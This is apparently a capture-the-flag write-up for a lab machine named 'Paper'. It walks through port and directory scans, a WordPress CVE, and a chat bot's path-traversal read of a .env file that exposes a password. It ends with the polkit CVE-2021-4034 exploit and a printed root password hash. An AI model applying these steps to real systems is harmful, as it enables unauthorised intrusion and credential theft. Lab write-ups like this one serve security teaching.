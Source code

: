 # Paper

![Paper.png](Paper/Paper.png)

**February 5, 2022**

Nmap scan to discover open ports and service versions.

```c
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNlbXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysfXN
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http syn-ack ttl 63 Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain
```

Directory scan:

```c
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.104.51/FUZZ
Total requests: 30000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                            
=====================================================================

000000345:   301        7 L      20 W       236 Ch      "manual"                                                           
000004255:   403        70 L     2438 W     199691 Ch   "http://10.129.104.51/"
```

Directory scan:

![Untitled](Paper/Untitled.png)

Discovering new host:

![Untitled](Paper/Untitled%201.png)

Subdomain enumeration:

![Untitled](Paper/Untitled%202.png)

![Untitled](Paper/Untitled%203.png)

Trying to reading some hidden files as the message was left we found a CVE

[https://www.exploit-db.com/exploits/47690](https://www.exploit-db.com/exploits/47690)

![Untitled](Paper/Untitled%204.png)

Use ?static=4

![Untitled](Paper/Untitled%205.png)

Secret registration URL

```jsx
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Something very cool, the application has a boot and we can use this boot to explore the machine

![Untitled](Paper/Untitled%206.png)

Listing directory:

![Untitled](Paper/Untitled%207.png)

Listing the root directory

![Untitled](Paper/Untitled%208.png)

Listing the home directory we found a boot and a .env with credentials

![Untitled](Paper/Untitled%209.png)

This is the SSH password of the user dwight.

```jsx
<!=====Contents of file ../../../../../home/dwight/hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../../../../../home/dwight/hubot/.env=====>
```

To root I use the new exploit of polkit

[GitHub - berdav/CVE-2021-4034: CVE-2021-4034 1day](https://github.com/berdav/CVE-2021-4034/)

![Untitled](Paper/Untitled%2010.png)

```jsx
root:$6$rfCS6Tb3sgIjkTux$UhBHq5wWPncgtVnltzm3Squ9KBcX3/9k0y6o8AG6lNSKOobHatUWFzPS1J8uuh/QML6kyhZ10ngXa5nCBLDkL.:18811:0:99999:7:::
```